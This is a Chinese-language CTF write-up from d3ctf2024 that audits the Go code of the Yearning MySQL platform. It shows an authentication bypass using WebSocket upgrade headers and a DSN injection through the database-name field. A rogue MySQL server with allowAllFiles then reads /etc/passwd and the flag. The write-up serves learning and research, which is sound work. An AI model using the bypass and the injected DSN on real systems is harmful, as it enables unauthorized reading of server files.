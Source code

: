 0x01 前言
=======

d3ctf2024中的yearning-MYSQL审计平台的详细代码审计分析；

知识要点：`golang`代码审计+`dsn`注入+`rouge_mysql_server`使用

0x02 过程记录
=========

环境搭建
----

```php
# 前端项目地址  
https://github.com/cookieY/Yearning-gemini  
# 后端项目地址  
https://github.com/cookieY/Yearning  
​  
# 换源  
npm config set registry https://registry.npm.taobao.org  
npm config get registry  
\# 编译前端代码成dist  
npm install \--force  
npm install \-legacy-peer-deps  
npm run build  
# 移动到后端代码的service文件夹下面  
mv dist ../Yearning/src/service  
​  
# 后端  
go mod tidy  
go run main.go
```

记得`conf.toml`配置文件的host不能填本地回环地址，本地docker起的mysql数据库名字不是默认的，是`Yearning`：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714482209374-983ab43e-6240-45d2-a0ab-056ad3e5f102.png)

`goland`中的运行调试配置：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714482132627-eb77514e-951f-4971-8ff6-aefb1f45566b.png)

websocket相关
-----------

`Websocket协议`是对http的改进，可以实现client 与 server之间的双向通信； websocket连接一旦建立就始终保持，直到client或server 中断连接，弥补了http无法保持长连接的不足，方便了客户端应用与服务器之间实时通信。

适用场景： html页面实时更新, 客户端的html页面内，用`javascript` 与 `server` 建立`websocket`连接，实现页面内容的实时更新。Websocket 非常适合网页游戏、聊天、证券交易等实时应用。 要求保持长连接的实时通信的应用场景。 如基于位置的服务应用，物联网，多方协作软件，在线教育，带社交属性的手机APP等。

推荐使用`apifox`（<https://apifox.com/apiskills/how-to-use-websocket-in-python/>）进行`websocket`的请求，`python`的`websocket`库实在不敢恭维。?

代审分析
----

在`router.go`可以看到所有的路由，可以看到其中一些包含了鉴权操作：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714486152595-15213e95-6b32-4238-8bea-cca090bd7bd2.png)

然后发现`/api/v2`路由组中使用了一个`JWTWithConfig`中间件进行鉴权的操作，跟下去看看：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714487155402-7b64511e-d0f7-4d81-856c-8479bfd6ada9.png)

前面进行了一堆的`config`判断，然后最后发现有一个`return function`，判断如果是`websocket`请求，就直接返回。

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714487326359-2f2f325a-80e7-46b1-a3a8-77431e51e7f1.png)

这边静态看不到这个`iswebsocket`函数具体内容是什么，给他打个断点，调试一下（可以访问<http://127.0.0.1:8000/api/v2/common/123>），发现是在依赖里面，我真是个哈皮，其中判断了`http`请求是否包含两个头部：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714487719370-8b25096f-3548-446c-a69a-fd3917e3b124.png)

需要满足`http`头部的内容是`Connection: upgrade` 和 `Upgrade: websocket`，这样就能直接return，看起来直接return就是绕过了鉴权。然后我们就能直接调用`/api/v2`下面所有的子路由。（发现好像调用`websocket`请求自带这两个头部。）

然后再fetch子路由找到一个`fetchtableinfo`函数，里面`u.FetchTableFieldsOrIndexes`

可以设置`dsn`的参数：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714490229492-e2e79441-2243-4902-b4cd-fcdefb3ecac8.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714490304396-143a3db5-ccb2-4fe9-bded-1905966bd7c3.png)

整了大半天，缘来是`bind函数`绑定的参数：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714541212232-b4a45b8e-785a-4490-b41c-3134f0fdb600.png)

直接用`apifox`这么发就行了，搞了半天`get`传参啊？：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714548013060-7434f9a5-45ed-4c53-9b79-38e827201acc.png)

**重点先说**：

1. 使`source_id`无效，则`model.DSN`其他字段置空；
2. 在`model.NewDBSub`函数中，实现`FormatDSN`拼接字符串，再ParseDSN解析成对象；
3. `FormatDSN`的时候是倒着解析的，解析到`/`+DBName的位置；
4. 综上，`DSN`完全可控，只要注入正确格式的`DSN`，就能用恶意的`server`进行恶意操作。

至于哪里有`dsn注入`呢，这里应该是`sourceid`可以让`DB`无效，然后`newdbsub`的时候会进行其他的操作：（注意，这里我们只能注入`DBName`，因为只有这里可控。）

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714548664688-40ec78d6-8a7b-434c-934b-a9e92716d58c.png)

主要是`NewDBSub`中的`InitDSN`先进行了`formatDSN`操作（凭借成dsn字符串），然后在`drive.New`处进行了`parseDSN`操作（将dsn字符串解析成结构体变量。）：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714552766870-332ea741-d21b-4d94-a0ac-3adf14b14307.png)

先进行了`formatDSN`，就是将上述给的`json`配置转换为一个`DSN字符串`，牛；

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714549766581-91aee870-03e1-44fc-a847-23de316a0b77.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714549785909-37909fea-c673-423b-91b1-d9a1037de5cb.png)

先写了**用户+密码**，然后写了**协议+地址**，然后**写了/+DBName数据库名**，然后**判断是否有参数传递**，然后我们其实可以在`mmsql`的`Config`看到所有参数的含义，是`go-sql-driver`的`mysql`驱动，其中，比较重要的就是要设置上面的`AllowAllFiles`为`true`，才能进行本地文件的加载，最后就是返回了这个`dsn`字符串

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714550008794-b21fef84-a05f-41d7-87c0-cafa8f69fd88.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714550090840-0cebd9fc-a379-41b2-beac-f261f62f86de.png)

在`driver.New`才进行了`parseDSN`的操作，然后这个`DSN`就是前面`InitDSN`拼接的`dsn`字符串：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714552953924-0fe895f6-ade2-480e-81ea-4f21b88901fa.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714552923825-608f6fb6-c585-4d1c-8265-a298c742c823.png)

查看`parseDSN`的流程发现，他是倒着进行对整个`dsn字符串`进行遍历找寻`/符号`的，真牛哈哈哈哈；

那这样，前面的添加的一些`tcp(:0)`好像也没用了，因此前面我们通过对DBname的注入整个恶意的dsn的话，应该是可以达到预期效果的：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714554226252-07faaeb0-dd5e-4804-bc5a-37ef1b904411.png)

最终走到底部，解析出来的值设这样的（所以记得最后加个`&`，虽然账号密码没有被正常解析，但是`IP`地址解析正确了，所以应该可以进行注入攻击。）：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714554418095-e394b95d-ec77-4b40-b70c-7836ab6a7cbb.png)

攻击过程()
------

`websocket`地址：`ws://47.103.216.47:30546/api/v2/fetch/fields`

需要利用rmb122大哥的`rouge_mysql_server`项目进行攻击：

[https://github.com/rmb122/rogue\_mysql\_server](https://github.com/rmb122/rogue_mysql_server)

```php
\# 在当前目录下生成配置文件模版, 如果已有配置文件可以跳过这一步  
./rogue\_mysql\_server \-generate  
​  
​  
\# 运行服务器, 使用刚刚生成的 config.yaml  
./rogue\_mysql\_server  
​  
\# 或者手动指定配置路径  
./rogue\_mysql\_server \-config other\_config.yaml

**（注意IP地址要使用go-mysql-driver这边的格式：admin:123456@tcp(192.168.193.205:3307)/foo?allowAllFiles=true&**）用`apifox`这么发，就能读取到本地的文件了：
```

按照下面的格式进行发送请求攻击：  
![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714556546821-2dac5850-4a5b-479f-9685-1af0d2961fb4.png)

本地成功读取到/etc/passwd文件：

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714556673029-ae132c69-0c4f-427c-9a90-c7dd4443cab6.png)

远程打一波(`ws://47.103.216.47:30546/api/v2/fetch/fields`)，记得**vps上面的端口要把安全组**打开，也是成功读取到了flag:

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714557358699-db10e08e-dfd2-4215-a646-ac362208c307.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714557397477-48247ecf-f181-4fc5-bfc1-95c6cc17aa6d.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714557406564-b7438611-0df4-4a77-8494-027b6bec339b.png)

另一个漏洞点-sql盲注
------------

`FetchTableFieldsOrIndexes`函数的show这里进行了字符串拼接，所以明显可以存在SQL盲注，交给大哥们去分析了。

![img](https://cdn.nlark.com/yuque/0/2024/png/22490189/1714556924691-3250903a-cdb9-433f-8a10-c456d4e44e1a.png)

0x03 总结
=======

学到了很多，熟悉了一波`golang`的语法和调试，以及`dsn`注入+`rouge_mysql_server`的利用。